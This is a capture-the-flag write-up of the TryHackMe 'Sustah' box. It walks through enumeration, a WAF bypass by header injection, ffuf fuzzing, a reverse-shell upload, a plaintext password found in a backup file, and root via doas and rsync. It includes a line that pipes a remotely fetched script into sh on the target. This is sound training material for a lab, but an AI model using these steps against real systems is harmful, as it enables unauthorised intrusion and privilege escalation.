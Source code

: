 This is a write up for the box SUSTAH on https://tryhackme.com/

First i add sustah to my /etc/hosts:

sudo vim /etc/hosts 

[![https://imgur.com/9VQSlLv.png](https://imgur.com/9VQSlLv.png)](https://imgur.com/9VQSlLv.png)

## Enumeration

First we start with a quick nmap scan.

[![https://imgur.com/dFiZBh9.png](https://imgur.com/dFiZBh9.png)](https://imgur.com/dFiZBh9.png)

Our gobuster doesnt give us any endpoints so lets look further.

There we can see the http port 8085 lets check it out.

[![https://imgur.com/nVxVCVL.png](https://imgur.com/nVxVCVL.png)](https://imgur.com/nVxVCVL.png)

Lets go for another gobuster on this port..

[![https://imgur.com/NJ6qyr5.png](https://imgur.com/NJ6qyr5.png)](https://imgur.com/NJ6qyr5.png)

So far we are pretty clueless.

Lets take a closer look at the inputfield.

We could try to bruteforce the right number with a method called fuzzing.
For that we create a wordlist of a specific range of numbers and lets it try each of them:

The tool we are going to use for that is called ffuf:

https://github.com/ffuf/ffuf

If we recall the description of the box:

"The developers have added anti-cheat measures to their game. Are you able to defeat the restrictions to gain access to their internal CMS?"
We probably also have to bypass a WAF.

Lets look at header injection by portswiggger:
https://portswigger.net/web-security/host-header/exploiting

By injecting the header in this way we can make the server belive the requests are coming from itself and therefor are trustworthy.

[![https://imgur.com/UbV0Trm.png](https://imgur.com/UbV0Trm.png)](https://imgur.com/UbV0Trm.png)

Now we can create our wordlist, we could use a onlinetool but we should try to write as much aspossible on our own :)

[![https://imgur.com/wnPqXyh.png](https://imgur.com/wnPqXyh.png)](https://imgur.com/wnPqXyh.png)

Now we can start our fuzzer tool:

We have to specify the wordlist we created with our little script, the headers to bypass the WAF, what we want to FUZZ, and the url.
I also added -fs which is a filter for the size 1004 because that is the normal response we would get if we have the wrong number.

[![https://imgur.com/4dDk7Ec.png](https://imgur.com/4dDk7Ec.png)](https://imgur.com/4dDk7Ec.png)

After inserting the right number we get a PATH.
After playing arround i found a adming loginpage with default credentials.
There we can upload files. 
Lets try to upload a reverseshell and run a nc listener.

[![https://imgur.com/pm551w8.png](https://imgur.com/pm551w8.png)](https://imgur.com/pm551w8.png)

Seems to work now we activate it by finding its location and clicking on it. ( or curl it )

[![https://imgur.com/iNkmr2K.png](https://imgur.com/iNkmr2K.png)](https://imgur.com/iNkmr2K.png)

Yes, it worked ! We are in :)

[![https://imgur.com/9NrVN9h.png](https://imgur.com/9NrVN9h.png)](https://imgur.com/9NrVN9h.png)

After searching for a good amount of time i find a backupfile of /etc/passwd with the password of kiran written in plaintext:

[![https://imgur.com/BZ4Iov1.png](https://imgur.com/BZ4Iov1.png)](https://imgur.com/BZ4Iov1.png)

First thing to do after: 
su kiran

is to create ssh keys

mkdir .ssh
ssh-keygen
touch authorized_keys
cat id_rsa.pub > authorized_keys

Now we can ssh into kiran with the -i parameter and the id_rsa key.


## Privescalation

After not finding any obvious vulnerabilities i decided to run linpeas.
Set up a simple python webserver on your host:

python3 -m http.server 1337

( you have to download linpeas first https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS )

then on the target in the /tmp directory:

curl http://youriphere:1337/linpeas.sh | sh

This will execute linpeas automatically.

The first thing that catches my eye is this doas.conf file which says we can run rsync as root:

[![https://imgur.com/JwnI0fg.png](https://imgur.com/JwnI0fg.png)](https://imgur.com/JwnI0fg.png)

So i tried ( i went to GTFOBINS to find privesc for rsync ) :   -> https://gtfobins.github.io/gtfobins/rsync/

[![https://imgur.com/sukmjzY.png](https://imgur.com/sukmjzY.png)](https://imgur.com/sukmjzY.png)

We can't run sudo since we don't have the sudo password. 

But what is this doas anyway? 

It seems to be a replacement for sudo where we can run commands as another user!

[![https://imgur.com/AQGteuV.png](https://imgur.com/AQGteuV.png)](https://imgur.com/AQGteuV.png)

So lets try to run rsync as user root since we dont need a password!

[![https://imgur.com/R4uinio.png](https://imgur.com/R4uinio.png)](https://imgur.com/R4uinio.png)

<iframe src="https://giphy.com/embed/vmon3eAOp1WfK" width="480" height="357" frameBorder="0" class="giphy-embed" allowFullScreen></iframe><p><a href="https://giphy.com/gifs/celebration-excited-loki-vmon3eAOp1WfK">via GIPHY</a></p>

![CELEBRATION]("https://media.giphy.com/media/vmon3eAOp1WfK/giphy.gif")

